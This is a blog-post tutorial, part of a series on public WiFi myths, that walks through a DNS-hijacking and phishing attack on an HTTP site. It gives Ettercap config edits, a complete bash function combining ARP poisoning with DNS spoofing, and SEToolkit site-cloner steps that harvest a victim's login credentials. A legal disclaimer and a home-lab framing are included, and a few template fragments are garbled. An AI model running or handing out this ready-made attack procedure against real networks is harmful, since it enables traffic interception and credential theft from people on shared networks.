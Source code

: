 ```yaml
---
layout: post
title:  "The Myths Of Public WiFi - Pt3. Is HTTP Is Safe If You Don't Log In?"
date:   2018-11-22 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 2 (Can Your Private Information Be Stolen?)][part-2]

<b>Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.</b>

In our last article, we learned how sensitive login information can be compromised. We can infer that just about any private input can be monitored if the traffic is unencrypted. But what if we have nothing to hide? If we have nothing to hide, then it should follow that we should have nothing to fear. While this line of reasoning is common among the tech consumers and even security professionals, the next two articles will prove the risk involved with running static HTTP pages.

<b>Roadmap</b>

-Answering basic questions

-Modifying our ARP poisoned (Ettercap) config files to allow DNS spoofing.

-Modifying our site cloner (SEToolkit) config file for HTTP.

-Using Wireshark to see what websites the user is using.

-Writing a script to automatically poison and spoof the domain that the victim is visiting.

-Make a fake copy of the target website.

<b>What is a DNS and why is it important?</b>

You may have heard network technicians throw the term around. The concept is very simple. No one wants to remember phone numbers. We create contact lists and call people by tapping their name. A DNS is a contact list for IP's. For example, the google.com domain in my area is 216.58.192.174. If you want to see a web domain's IP address, simply type

{% highlight ruby %}
nslookup example.com
{% endhighlight %}

A DNS is important to the attacker. The attacker can change the IP location of a domain to his own computer. This means that instead of loading example.com at 93.184.216.34, example.com will go to 192.168.1.4 (or whatever your local IP is). This means the attacker can create a phishing page, or even execute malicious code. Even if the viewer is reading the .com]], simply clicking on something on within the website could bring up a fake Facebook login page. While the more security conscious people will immediately see the suspicious cause and effect relationship, the transition is so seamless that the average user will just assume his browser "glitched" and he will simply have to log in again. While services like Facebook have Two Factor Authentication, a [sophisticated attacker][2FA] can create a phish for that as well.

<b>Can HTTPS be redirected?</b>

There are plenty of articles and tutorials that claim to have broken HTTPS with tools like SSLStrip. But as I mentioned before, this tactic is useless. HTTPS not only encrypts, but modern browsers use a complex verification process to protect against redirecting to fake IP's.

<b>Monitoring traffic in real time</b>

As the attacker, you will need to know what HTTP websites the user is visiting before setting up the attack. In the past, we have used tshark in order to save capture files for later viewing. DNS hijacking will require real-time traffic monitoring so we know which domain to spoof. Just as before, poison the arp tables and filter the traffic while it is running.

{% highlight ruby %}
poison
{% endhighlight %}

You will need to open up Wireshark while the victim's traffic is being routed through your computer. Open a new terminal tab and type

{% highlight ruby %}
sudo wireshark
{% endhighlight %}

Depending on how you set up Wireshark upon the first install, you may receive an error that looks like this. Simply accept it, then click the blue fin in the upper left to begin the live capture process.

![image tooltip](/blog/images/wifi/wiresharkwarning.JPG)

As the traffic is flooding in, type "dns" into the filter. Once you have a good idea of what the victim is browsing, you can stop Wireshark then quit the Ettercap poison script by pressing q. Once you have a good idea of what he or she is browsing, you can put in our custom hijack commands. This is what a real life scenero would look like. Since we are on our home network where everything is legal, we must first set up the operation. For now we are just going to assume our target is playing neopets.com while doing work for his employer over the web. We will assume he uses the same username and password for both accounts.

<b>Setting up the initial files</b>

We need to start by modifying a few configuration files for Ettercap. The first is etter.conf which is the config file that holds all the Ettercap settings. The next is etter.dns which is our DNS contact list. Once we are finished with that, we will configure the SEToolkit config file.

{% highlight ruby %}
#Start by making a backup copy of etter.conf and etter.dns

sudo cp /etc/ettercap/etter.conf /etc/ettercap/etter.original.conf
sudo cp /etc/ettercap/etter.dns /etc/ettercap/etter.original.dns

#Make a blank modified version of etter.conf
sudo cp /etc/ettercap/etter.conf /etc/ettercap/etter.hijack.conf
sudo cp /etc/ettercap/etter.dns /etc/ettercap/etter.blank.dns
{% endhighlight %}

First, edit the DNS file. And by edit, I mean make a blank copy.

{% highlight ruby %}
sudo nano /etc/ettercap/etter.blank.dns
#Once the file is open, press Ctrl+K until all the lines are deleted and the entire file is empty
#Press Ctrl+O to save out. Then Ctrl+X to exit
{% endhighlight %}

Now we need to modify the hijacked config file. We will address 4 specific lines.

{% highlight ruby %}
sudo nano /etc/ettercap/etter.hijack.conf
{% endhighlight %}

Now that we are inside the file, look for the following lines and change their value to zero

{% highlight ruby %}
ec_uid = 0                # nobody is the default
ec_gid = 0                # nobody is the default
{% endhighlight %}

This means Ettercap has the privileges to write data. The default is 65534 (nobody)

Press Ctrl+O to save out. Then Ctrl+X to exit

Next, configure our site cloning tool SEToolkit.

{% highlight ruby %}
sudo nano /etc/ettercap/set.config
{% endhighlight %}

Press Ctrl+W and type "APACHE" and make the following changes

{% highlight ruby %}
APACHE_SERVER = ON
APACHE_DIRECTORY=/var/www/html
{% endhighlight %}

Save with Ctrl+O and exit with Ctrl+X.

<b>Making life easier with the .bashrc file</b>

The first thing we will need to do is create an environment variable. You may have noticed a few at the top already. This new one will be able to hold multiple values in case we want to attack multiple domains. I will add in example.com just to demonstrate, but today we will only need to worry about neopets.com.

{% highlight ruby %}
dns_hijack_target=('example.com' 'neopets.com' );
#We can add as many sites as we want. Seperated by spaces.
{% endhighlight %}

Now go to the bottom of all your functions and add the following

{% highlight ruby %}
function dns_hijack ()
{
#forward IP
sudo sysctl -w net.ipv4.ip_forward=1;

#copies the modified files
sudo rm /etc/ettercap/etter.conf;
sudo cp /etc/ettercap/etter.hijack.conf /etc/ettercap/etter.conf;
sudo rm /etc/ettercap/etter.dns;
sudo cp /etc/ettercap/etter.blank.dns /etc/ettercap/etter.dns;

#adds all the domains in $dns_hijack_target to the blank DNS file.
for ((i = 0; i < ${#dns_hijack_target[@]}; i++))
        do
        echo ${dns_hijack_target[i]}"      A   "$myIP | sudo tee -a /etc/ettercap/etter.dns; 
        echo "*."${dns_hijack_target[i]}"    A   "$myIP | sudo tee -a /etc/ettercap/etter.dns;
        done

#opens a webserver
sudo systemctl start apache2;

#poisons the ARP table using the DNS spoof plugin (-P dns_spoof)
sudo ettercap -T -i $adp -P dns_spoof -M arp:remote /$targetIP// /$gatewayIP//;

#when the operation is complete, the script will automaticly close the server and turn off IP forwarding.
sudo systemctl stop apache2;
sudo sysctl -w net.ipv4.ip_forward=0;
}
{% endhighlight %}

Press Ctrl+O to save out. Then Ctrl+X to exit. Exit out of the terminal in order to have the changes take effect.

<b>Test</b>

Start by running the command we just created

{% highlight ruby %}
dns_hijack
{% endhighlight %}

Go into your Windows VM and access your attacking VM's local IP. For example, mine is 192.168.1.4. You should see something that looks like this. It means your web server is working

![image tooltip](/blog/images/wifi/apache200.JPG)

Now access example.com

If you see the same thing, then this means the redirect is working as well.

<b>Clone the target login form</b>

Next we will need to make a copy of the neopets.com website. Open terminal and type

{% highlight ruby %}
sudo setoolkit
{% endhighlight %}

#Once inside, choose these options in order

(1) Social-Engineering Attacks
(2) Website Attack Vectors
(3) Credential Harvester Attack Method
(2) Site Cloner
{% endhighlight %}

In your Windows VM, go to neopets.com and log in. Once that is done, SEToolkit will send display the credentials in the terminal window.

Go to your /var/www/html directory and open the harvester text file. You should see the login credentials displayed as well.

<b>Conclusion</b>

Websites that use http can still be vulnurable to phishing scams. Even if the attacker is not trying to phish for the user credentials, he could still make a page that executes mallicious code. This attack will only work if the user does not notice how little sense it makes for a link on an http website to redirect to a login page on a different service alltogether. Half the population will proborbly fall for this, but I have not run the study myself due to obvious legal concerns. The DNS redirect attack I just described will only work if you already know what HTTP websites the user is currently browsing.

[Part 4 (If I See The Lock In My Browser's URL, Does That Mean I'm Safe?)][part-4]

[part-1]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_1.html
[part-4]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_4.html
[reddit.com]: http://www.reddit.com
[part-2]: https://danielloosec.github.io/blog/jekyll/update/2018/11/22/PublicWifiMyths_Part_2.html
[2FA]:https://youtu.be/xaOX8DS-Cto